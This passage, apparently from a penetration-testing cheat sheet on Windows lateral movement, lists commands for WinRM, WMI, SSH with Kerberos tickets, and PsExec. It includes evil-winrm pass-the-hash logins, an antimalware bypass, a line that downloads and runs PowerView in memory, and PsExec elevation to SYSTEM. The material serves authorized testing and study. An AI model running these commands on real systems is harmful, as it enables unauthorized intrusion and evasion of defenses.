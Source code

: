 **Requirements**:

* Port **5985** or **5986** open.
* Default endpoint is **/wsman**

If WinRM is disabled on the system you can enable it using: `winrm quickconfig`

The easiest way to interact over WinRM on Linux is with [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```powershell
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 10.0.0.20 -u username -H HASH
evil-winrm -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```

## WMI Protocol

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```

## SSH Protocol

:warning: You cannot pass the hash to SSH

* Connect using username/password of a Domain User

    ```ps1
    ssh -l user@domain 192.168.1.1
    ```

* Connect with a Kerberos ticket

    ```ps1
    cp user.ccache /tmp/krb5cc_1045
    ssh -o GSSAPIAuthentication=yes user@domain.local -vv
    ```

## Other Methods

### PsExec - Sysinternal

From Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PS C:\> PsExec.exe  \\srv01.domain.local -u DOMAIN\username -p password cmd.exe

# switch admin user to NT Authority/System
PS C:\> PsExec.exe  \\srv01.domain.local -u DOMAIN\username -p password cmd.exe -s 
```
